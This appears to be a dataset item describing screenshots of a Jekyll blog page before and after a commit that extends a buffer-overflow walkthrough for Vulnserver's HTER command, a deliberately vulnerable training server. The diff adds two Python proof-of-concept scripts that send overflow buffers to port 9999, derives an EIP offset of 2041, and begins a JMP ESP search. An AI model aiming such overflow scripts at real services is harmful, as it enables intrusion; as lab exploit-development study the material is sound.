

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/20-03-09-Vulnserver-HTER.md, in a window 1280 px wide and 1400 px high, scrolled down 1171 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1559 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 20-03-09-Vulnserver-HTER.md

````diff
--- a/_posts/posts/20-03-09-Vulnserver-HTER.md
+++ b/_posts/posts/20-03-09-Vulnserver-HTER.md
@@ -36,3 +36,61 @@
 #### Crash I
 
 ![](/assets/img/HTER/1.png)
+
+##### Gaze at the EIP for a bit, look how instead of converting the sent bytes into hex (41), it just parsed them as how they went dispatched.
+##### As there is no pattern available in order to obtain the offset, the best method is to deduce with the use of elimination process.
+
+###### PoC code:
+
+```term
+import socket, sys
+
+host = sys.argv[1]
+
+buffer = "HTER " + "A" * 2000 + "B" * 1000 + "C" * 1000
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+s.connect((host, 9999))
+
+s.send(buffer)
+
+s.close()
+```
+
+##### Crash II
+
+![](/assets/img/HTER/2.png)
+
+##### As displayed, it appears as now the B's are the culprit for the overflow. After this process was replicated on multiple occasions, it was found for the offset to be 2041.
+##### Furthermore, in order to overwrite the EIP, it is needed to cover the extra space that the opcodes commonly occupy, meaning that it is required to send 8 B's, instead of 4.
+
+###### PoC code:
+
+```term
+import socket, sys
+
+host = sys.argv[1]
+
+buffer = "HTER " + "A" * 2041 + "BBBBBBBB" + "FF" * 200
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+s.connect((host, 9999))
+
+s.send(buffer)
+
+s.close()
+```
+
+##### Crash III
+
+![](/assets/img/HTER/3.png)
+
+#### Hijacking the execution
+
+##### As with any other buffer overflow, it is now essential to find an address with a JMP ESP instruction, which will allow us to execute any type of code with no restrictions whatsoever.
+
+###### Enumerating the modules
+
+![](/assets/img/HTER/4.png)
````
